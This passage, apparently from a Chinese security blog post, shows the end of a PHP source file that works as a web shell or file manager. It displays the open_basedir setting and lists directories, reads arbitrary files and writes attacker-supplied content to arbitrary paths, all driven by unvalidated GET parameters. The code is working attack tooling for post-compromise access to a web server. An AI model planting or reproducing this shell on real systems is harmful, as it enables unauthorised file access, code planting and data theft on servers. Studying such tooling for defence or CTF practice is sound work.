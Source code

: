 ```php
</fieldset>
</form>
</pre>
<pre id="wf">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Write File :</legend>File Path   : <input name="file_path" size="100" value="<?php echo $file_path; ?>"><input type="submit" value="Write">
File Content: <textarea cols="70" name="content"></textarea>
Description : <strong><?php echo $fileWriter->getDescription(); ?></strong><input type="hidden" name="action" value="wf">
</fieldset>
</form>
</pre>
</div>
<a href="#dl">Directory Listing</a> | <a href="#rf">Read File</a> | <a href="#wf">Write File</a>
<hr>
<pre>
<?php if ($action === 'rf'): ?>
<plaintext>
<?php
$fileReader->setFilePath($file_path);
echo $fileReader->read();
?>
<?php elseif ($action === 'wf'): ?>
<?php
if (isset($_GET['content'])) {
	$fileWriter->setFilePath($file_path);
	$fileWriter->write($_GET['content']);
	echo 'The file should be written.';
} else {
	echo 'Something goes wrong.';
}
?>
<?php else: ?>
<ol>
<?php
$directorLister->setCurrentPath($cwd);
$file_list = $directorLister->getFileList();
$parent_path = dirname($cwd);
 
echo "<li><a href='?cwd={$parent_path}{$append}#dl'>Parent</a></li>";
if (count($file_list) > 0) {
	foreach ($file_list as $file) {
		echo "<li><a href='?cwd={$cwd}{$file}{$append}#dl'>{$file}</a></li>";
	}
} else {
	echo 'No files found. The path is probably not a directory.';
}
?>
</ol>
<?php endif;?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3e076f2d334c453dbb67a1db4b61df7c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)
